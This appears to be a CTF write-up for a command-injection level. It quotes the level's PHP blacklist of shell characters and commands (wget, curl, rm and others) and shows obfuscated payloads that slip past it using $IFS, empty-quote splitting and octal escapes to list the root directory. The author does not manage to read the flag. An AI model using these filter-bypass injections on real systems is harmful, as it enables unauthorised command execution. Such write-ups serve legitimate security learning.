

In this level we can run commands, and trying to get the flag.

However, we are in a very strict environment:
```php
$code = substr ($_POST['code'], 0, 40);

putenv ("PATH=/don't_be_so_clever");

$special_characters = array ('&', '<', '>', '|', '`', '-', '^', '*', '=', ';', '.', '%', '/', '[', '_', '"', ' ', '?', '{', '}', "\t");
$words_filter = array ('flag', 'php', 'path', 'export', 'env');
$functions = array ('eval', 'echo', 'printf', 'base', 'grep', 'find', 'xargs', 'pwd', 'awk', 'wget', 'curl', 'read', 'tar', 'zip', 'rm', 'xxd', 'hex', 'ln', 'cp');

$blacklist = array_merge ($special_characters, $words_filter, $functions);

$insecure = false;
foreach ($blacklist as $blacklisted) {
    if (stripos ($code, $blacklisted) !== FALSE) {
        $char = $blacklisted;
        $insecure = true;
        break;
    }
}
```
It let us insert only `40` chars, and also restrict a lot of chars. In addition, it changed the `PATH`, that we won't be able to use `ls` or other commands like that.

So, first the bypassing of ` ` (space) we can take `$IFS`.
For example:
`echo 'hello'` -> `echo$IFS'hello'`

Second, we can use `pwd` by putting `''` inside, for example:
`pwd` -> `pw''d`.

I managed to find the name of the file `flag...`
This is the payload:
```bash
ech''o$IFS$(print''f$IFS\\57\\052)
```

Where `\\57` is `/` in octal, and `\\052` is `*` in octal.

This is the output:


So, this is the filename: `/flag_44729d28d2d509fa3d9fc85deca21bce`, however, i don't know how to read it...
I thought about something like this:
```bash
echo "$(<f*)"
```

but it worked for me only in local (at least i don't know how to build it with the obfuscation).



Oh, i understand why it isn't working, because the challenge use `/bin/sh`, and i'm using `/bin/bash`.

When checking this in `/bin/sh`, i got:
```
$ echo "$(<f*)"
sh: 93: cannot open f*: No such file
```

The `globe` isn't working in `sh` like it works in `bash`.

This would work:
```sh
for f in $(echo f\\52); do read m <$f; printf %s $m; done
```
However, of course we can't use that... 

:|


**Flag:** ***`PLACE_HOLDER`*** 
